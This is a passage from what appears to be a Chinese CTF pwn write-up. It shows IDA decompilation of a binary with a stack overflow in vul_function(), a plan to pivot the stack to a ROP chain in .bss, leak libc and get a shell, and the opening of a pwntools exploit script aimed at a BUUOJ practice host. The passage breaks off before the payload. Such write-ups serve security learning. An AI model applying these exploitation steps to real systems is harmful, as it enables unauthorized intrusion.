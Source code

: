**IDA静态分析**

main()

```plain
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vul_function();
  puts("GoodBye!");
  return 0;
}
```

vul\_function()

```plain
ssize_t vul_function()
{
  size_t v0; // eax
  size_t v1; // eax
  char buf[24]; // [esp+0h] [ebp-18h] BYREF

  v0 = strlen(m1);
  write(1, m1, v0);
  read(0, &s, 0x200u);
  v1 = strlen(m2);
  write(1, m2, v1);
  return read(0, buf, 0x20u);
}
```

主要漏洞点在第二个read()，其实操作和上一个题目差不多

就是在第一个read()写入我们构造的ROP链，然后第二个read()迁移到处于bss段的s地址，先泄露libc，再getshell

exp:

```plain
#coding=utf-8 
import os
import sys
import time
from pwn import *
from ctypes import *

context.log_level='debug'
context.arch='i386'

#p=process('./pwn')
p=remote("node4.buuoj.cn",27645)
elf = ELF('./pwn')
libc = ELF('./libc-2.23.so')

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sls     = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
def dbg():
```